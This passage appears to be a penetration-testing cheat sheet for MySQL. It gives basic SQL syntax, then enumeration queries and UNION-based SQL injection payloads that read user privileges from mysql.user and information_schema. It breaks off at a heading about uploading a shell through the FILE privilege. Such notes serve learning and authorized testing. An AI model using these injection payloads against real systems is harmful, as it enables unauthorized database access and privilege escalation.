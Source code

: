 ```mysql
DROP TABLE tableName;

# the UPDATE statement can be used to update specific records within a table, based on certain conditions. Its general syntax is:
UPDATE tableName SET column1=newvalue1, column2=newvalue2, ... WHERE <condition>;

```


```MySQL
# UNION Statement syntax
#<SELECT statement> UNION <other SELECT statement>;
# Example:
SELECT name, description FROM products WHERE id=9 UNION SELECT price FROM products WHERE id=9;
```


## Enumeration queries 

```mysql
# Show current user
current_user()
user()

SELECT USER()
SELECT CURRENT_USER()
SELECT user from mysql.user

# Show current database
database()

# we can test if we have super admin privileges with the following query:
SELECT super_priv FROM mysql.user
# This in a UNION query would be (example):
# cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- -
# Another example:
# cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -

# Dump privileges:
SELECT grantee, privilege_type FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
# As an example in an UNION query payload:
# cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -


```


###  `FILE` privilege enabled: Upload a shell

If our user has the `FILE` privilege enabled, they can read and potentially write files:
